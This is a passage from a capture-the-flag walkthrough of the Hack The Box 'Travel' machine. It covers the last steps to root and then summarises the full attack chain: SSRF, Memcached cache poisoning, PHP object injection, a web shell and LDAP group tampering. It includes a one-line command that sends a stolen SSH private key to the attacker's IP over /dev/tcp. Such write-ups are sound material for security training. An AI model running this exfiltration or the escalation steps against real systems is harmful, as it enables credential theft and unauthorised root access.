 - Transferred the private key to my system.
```bash
cat id_rsa > /dev/tcp/10.10.14.16/8001
```
- After giving all the necessary permissions, used the private key to login as user `lynik`
- I can see user `lynik` group is in `5000`
![Pasted image 20250301010405.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250301010405.png?raw=true)
- I can actually change the group to root's group. But first I have to find the UID for root group
```bash
cat /etc/group | grep -i sudo
```
![Pasted image 20250301010513.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250301010513.png?raw=true)
- Found root group to be `27` so changed the group ID to `27` in the LDAP.
![Pasted image 20250301010953.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250301010953.png?raw=true)
- After re-login I can see the changes
![Pasted image 20250301011035.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250301011035.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250301011304.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250301011304.png?raw=true)

## Summary
This walkthrough details the full compromise of travel.htb, a Linux-based target. Reconnaissance revealed open ports (22, 80, 443), a WordPress site (blog.travel.htb), and an exposed .git directory. Enumeration uncovered an outdated WordPress 5.4 installation with XML-RPC enabled and a vulnerable rss_template.php file. Exploiting an SSRF vulnerability, cache poisoning in Memcached, and PHP object injection, a web shell was uploaded, leading to remote code execution. Pivoting further, a MySQL database dump exposed credentials, and an .ldaprc file hinted at LDAP-based authentication. Using .viminfo, a stored password was retrieved, granting access to lynik-admin via SSH. By modifying LDAP attributes, the user’s group was changed to root (27), escalating privileges and leading to complete system takeover. This successful attack leveraged SSRF, cache poisoning, and LDAP misconfigurations to achieve root access and capture the final flag.

{{< typeit >}} I am not going to lie this is one of the logest box that I have ever encountered. Apart from that this was good, This machine gave me pure statisfaction. As always i'll see you on another walkthrough {{< /typeit >}}

![see-you](https://media.tenor.com/EtD1uTCJ_3sAAAAi/no-bye.gif)
